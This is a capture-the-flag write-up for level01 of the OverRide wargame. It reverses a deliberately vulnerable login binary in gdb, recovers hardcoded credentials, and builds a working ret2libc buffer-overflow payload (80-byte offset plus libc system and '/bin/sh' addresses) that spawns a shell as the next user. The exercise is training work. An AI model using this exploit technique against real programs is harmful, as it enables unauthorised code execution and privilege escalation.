

# level01


```sh
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: Uta
verifying username....

nope, incorrect username...

level01@OverRide:~$ ./level01 Shanks
********* ADMIN LOGIN PROMPT *********
Enter Username: Uta
verifying username....

nope, incorrect username...

level01@OverRide:~$ 
```

Like the previous level, we can try to solve this level by using ONLY `gdb`. Let's go disassemble the main function from this binary :

```sh
(gdb) disass main
Dump of assembler code for function main:
   0x080484d0 <+0>:	push   ebp
   0x080484d1 <+1>:	mov    ebp,esp
   0x080484d3 <+3>:	push   edi
   0x080484d4 <+4>:	push   ebx
   0x080484d5 <+5>:	and    esp,0xfffffff0
   0x080484d8 <+8>:	sub    esp,0x60
   0x080484db <+11>:	lea    ebx,[esp+0x1c]
   0x080484df <+15>:	mov    eax,0x0
   0x080484e4 <+20>:	mov    edx,0x10
   0x080484e9 <+25>:	mov    edi,ebx
   0x080484eb <+27>:	mov    ecx,edx
   0x080484ed <+29>:	rep stos DWORD PTR es:[edi],eax
   0x080484ef <+31>:	mov    DWORD PTR [esp+0x5c],0x0
   0x080484f7 <+39>:	mov    DWORD PTR [esp],0x80486b8
   0x080484fe <+46>:	call   0x8048380 <puts@plt>
   0x08048503 <+51>:	mov    eax,0x80486df
   0x08048508 <+56>:	mov    DWORD PTR [esp],eax
   0x0804850b <+59>:	call   0x8048360 <printf@plt>
   0x08048510 <+64>:	mov    eax,ds:0x804a020
   0x08048515 <+69>:	mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+73>:	mov    DWORD PTR [esp+0x4],0x100
   0x08048521 <+81>:	mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>
   0x08048532 <+98>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:	je     0x8048550 <main+128>
   0x0804853d <+109>:	mov    DWORD PTR [esp],0x80486f0
   0x08048544 <+116>:	call   0x8048380 <puts@plt>
   0x08048549 <+121>:	mov    eax,0x1
   0x0804854e <+126>:	jmp    0x80485af <main+223>
   0x08048550 <+128>:	mov    DWORD PTR [esp],0x804870d
   0x08048557 <+135>:	call   0x8048380 <puts@plt>
   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
   0x08048585 <+181>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:	je     0x8048597 <main+199>
   0x08048590 <+192>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:	je     0x80485aa <main+218>
   0x08048597 <+199>:	mov    DWORD PTR [esp],0x804871e
   0x0804859e <+206>:	call   0x8048380 <puts@plt>
   0x080485a3 <+211>:	mov    eax,0x1
---Type <return> to continue, or q <return> to quit---
   0x080485a8 <+216>:	jmp    0x80485af <main+223>
   0x080485aa <+218>:	mov    eax,0x0
   0x080485af <+223>:	lea    esp,[ebp-0x8]
   0x080485b2 <+226>:	pop    ebx
   0x080485b3 <+227>:	pop    edi
   0x080485b4 <+228>:	pop    ebp
   0x080485b5 <+229>:	ret
End of assembler dump.
(gdb) 
```

> ### _Our live reaction of [Noah](https://github.com/noalexan) and me to that `main` :_


### _Hum okay... That's a looong main..._

## In the main, what we can notice ?

1. At line `<+93>`, a function `verify_user_name` is called.
2. At line `<+176>`, a function `verify_user_pass` is called.

# `verify_user_name`

```sh
(gdb) disass verify_user_name
Dump of assembler code for function verify_user_name:
   0x08048464 <+0>:	push   ebp
   0x08048465 <+1>:	mov    ebp,esp
   0x08048467 <+3>:	push   edi
   0x08048468 <+4>:	push   esi
   0x08048469 <+5>:	sub    esp,0x10
   0x0804846c <+8>:	mov    DWORD PTR [esp],0x8048690
   0x08048473 <+15>:	call   0x8048380 <puts@plt>
   0x08048478 <+20>:	mov    edx,0x804a040
   0x0804847d <+25>:	mov    eax,0x80486a8
   0x08048482 <+30>:	mov    ecx,0x7
   0x08048487 <+35>:	mov    esi,edx
   0x08048489 <+37>:	mov    edi,eax
   0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804848d <+41>:	seta   dl
   0x08048490 <+44>:	setb   al
   0x08048493 <+47>:	mov    ecx,edx
   0x08048495 <+49>:	sub    cl,al
   0x08048497 <+51>:	mov    eax,ecx
   0x08048499 <+53>:	movsx  eax,al
   0x0804849c <+56>:	add    esp,0x10
   0x0804849f <+59>:	pop    esi
   0x080484a0 <+60>:	pop    edi
   0x080484a1 <+61>:	pop    ebp
   0x080484a2 <+62>:	ret
End of assembler dump.
(gdb) 
```

The line `<+39>` is pretty interesting and weird.

`repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]` : This looong instruction compares `byte` by `byte` the content of the `esi` register with the content of the `edi` register. It will stop when the `esi` register is equal to the `edi` register or when the `ecx` register is equal to `0`.
**Basically, it's the function `memcmp` in C.**

We can read this code and see by what the `esi` and `edi` registers are filled with `gdb`.

What if we print the content of the address `0x804a040` we can see at the line `<+20>` ? 2 possibilities : The string we input or the username we need to find. It attributes the address `0x804a040` to the `esi` register just after the `puts` function, let's see :

```sh
(gdb) x/s 0x804a040
0x804a040 <a_user_name>:	 ""
(gdb)
```

Okay, the address `0x804a040` is empty, it probably contains the username we passed to the binary. It's stocked in a global variable `a_user_name`.

Let's print the content of the address `0x80486a8` we can see at the line `<+25>`, it stores in the `edi` register :

```sh
(gdb) x/s 0x80486a8
0x80486a8:	 "dat_wil"
(gdb)
```

## OH WE HAVE SOMETHING HERE

Let's try to input `dat_wil` as username :

```sh
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Smoker
nope, incorrect password...

level01@OverRide:~$
```

## _Okay, now we have to find the password of `dat_wil`._

# `verify_user_pass`

```sh
(gdb) disass verify_user_pass
Dump of assembler code for function verify_user_pass:
   0x080484a3 <+0>:	push   ebp
   0x080484a4 <+1>:	mov    ebp,esp
   0x080484a6 <+3>:	push   edi
   0x080484a7 <+4>:	push   esi
   0x080484a8 <+5>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>:	mov    edx,eax
   0x080484ad <+10>:	mov    eax,0x80486b0
   0x080484b2 <+15>:	mov    ecx,0x5
   0x080484b7 <+20>:	mov    esi,edx
   0x080484b9 <+22>:	mov    edi,eax
   0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080484bd <+26>:	seta   dl
   0x080484c0 <+29>:	setb   al
   0x080484c3 <+32>:	mov    ecx,edx
   0x080484c5 <+34>:	sub    cl,al
   0x080484c7 <+36>:	mov    eax,ecx
   0x080484c9 <+38>:	movsx  eax,al
   0x080484cc <+41>:	pop    esi
   0x080484cd <+42>:	pop    edi
   0x080484ce <+43>:	pop    ebp
   0x080484cf <+44>:	ret
End of assembler dump.
(gdb)
```

Okay, almost the same thing as the previous function. The password is probably stored in the address `0x80486b0` at the line `<+10>`. Let's see :

```sh
(gdb) x/s 0x80486b0
0x80486b0:	 "admin"
(gdb) 
```

## WE HAVE THE PASSWOOOOOORD

Let's try to input `dat_wil` as username and `admin` as password :

```sh
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...

level01@OverRide:~$
```

## _So, okay... That's not works..._

After a long investigation, I found nothing else to find what we supposed to do because of my skills in `assembly` are not enough to understand the binary...

...

...

...

Okay... go decompile the binary... (What a defeat...)



Okay, we have aa better look of our binary.
- There is a global variable `char a_user_name[100]`.
- The `main` function initializes the `char s[64]` and `bool v5`
- It stores our input in `a_user_name` and calls the function `verify_user_name`, and this function compares the username we pass with the string `dat_wil`.
1. If not equal, it prints `nope, incorrect username...` and exits.
2. If equal, it stores our input in `s` and verifies the password with the function `verify_user_pass`. BUT, no matter what we input, it will always print `nope, incorrect password...\n` and exits.

# _What we can do ?_

The `NX` bit is disabled, so we can try to **`Ret2Libc`** attack. The variable `s` may be exploitable.

## 1. Find the offset

`s` is a buffer of 64 bytes, it stores only the password we pass, let's try to crash the binary by passing a string over `64 bytes` :
```sh
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
nope, incorrect password...

Segmentation fault (core dumped)
level01@OverRide:~$
```

### Okay, super

With the [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), we can generate a string of `100 bytes` and pass it to the binary and find the offset :

```sh
(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) 
```

### `0x37634136` is the `80th byte`, we have our offset !

## 2. Find the address of the `system` function

```sh
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb)
```

### `system` : `0xf7e6aed0` (`\xd0\xae\xe6\xf7` for the little-endian)

## 3. Find the address of the `exit` function

```sh
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb)
```

### `exit` : `0xf7e5eb70` (`\x70\xeb\xe5\xf7` for the little-endian)

## 4. Find the address of the string `/bin/sh`

```sh
(gdb) info proc map
process 1711
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fd8000 0xf7fdb000     0x3000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
(gdb) 
```

### `/bin/sh` : `0xf7f897ec` (`\xec\x97\xf8\xf7` for the little-endian)

## 5. Craft the payload

Remind the [level02 of _Rainfall_](https://github.com/Nimpoo/rainfall/tree/main/level2) for the `Ret2Libc` attack.

```sh
pyhton -c 'print <offset> + <system> + <exit> + <"/bin/sh">'
```

There is here no protections at all for calling a function directly from the `libc`, so we can directly pass the payload to the binary :

```sh
python -c 'print "A" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'
```

> Because of it's the second prompt where we have to put our payload, we can print `dat_wil` with `python` and adding a newline character `\n` at the end of `dat_wil` THEN add the payload as a second argument. And the `exit` is optionnal, 4 randoms bytes will be added instead. AND DON'T FORGET THE `cat` TO KEEP THE SHELL OPEN !

```sh
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "A" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02

```

# EASY

Let's get the flag and go to the next level :

```sh
level01@OverRide:~$ su level02
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
level02@OverRide:~$ 
```

# level01 complet !

